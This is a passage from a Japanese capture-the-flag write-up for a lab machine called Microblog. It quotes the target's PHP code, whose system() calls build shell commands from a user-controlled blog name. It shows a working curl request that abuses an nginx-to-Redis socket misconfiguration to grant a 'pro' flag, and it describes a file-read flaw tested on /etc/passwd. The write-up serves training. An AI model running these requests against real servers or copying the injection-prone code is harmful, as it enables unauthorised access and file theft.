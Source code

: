 ```php:microblog/register/index.php
$redis->HSET(trim($_POST['username']), "pro", "false"); //not ready yet, license keys coming soon
```

また、Pro になると権限のゆるい `/var/www/microblog/$blogName/uploads` が使えます。

```php:microblog/sunny/edit/index.php
function provisionProUser() {
    if(isPro() === "true") {
        $blogName = trim(urldecode(getBlogName()));
        system("chmod +w /var/www/microblog/" . $blogName);
        system("chmod +w /var/www/microblog/" . $blogName . "/edit");
        system("cp /var/www/pro-files/bulletproof.php /var/www/microblog/" . $blogName . "/edit/");
        system("mkdir /var/www/microblog/" . $blogName . "/uploads && chmod 700 /var/www/microblog/" . $blogName . "/uploads");
        system("chmod -w /var/www/microblog/" . $blogName . "/edit && chmod -w /var/www/microblog/" . $blogName);
    }
    return;
}
```

以上のことから、次のような攻撃方針を立てました。

1. ユーザの権限を Pro にする
2. `/var/www/microblog/$blogName/uploads` に攻撃用の PHP ファイルを置く

## Pro になる

nginx と Redis について調べていたら、次の記事がヒットしました。

https://labs.detectify.com/2021/02/18/middleware-middleware-everywhere-and-lots-of-misconfigurations-to-fix/

この記事の内容を使って頑張ることで、`pro` を `true` にできました。レスポンスは 502 ですが、攻撃は成功していました。

```
┌──(kali㉿kali)-[~]
└─$ curl -X HSET "http://microblog.htb/static/unix:%2Fvar%2Frun%2Fredis%2Fredis.sock:tyo%20pro%20true%20/a"
<html>
<head><title>502 Bad Gateway</title></head>
<body>
<center><h1>502 Bad Gateway</h1></center>
<hr><center>nginx/1.18.0</center>
</body>
</html>
```

![](https://storage.googleapis.com/zenn-user-upload/551cfd8221dc-20231001.png)

## Local File read/write

色々と試してみたところ、`h1` の POST で `id` にファイル名を入れると読み取れることがわかりました。下の例は `/etc/passwd` を読み取ってみたものです。
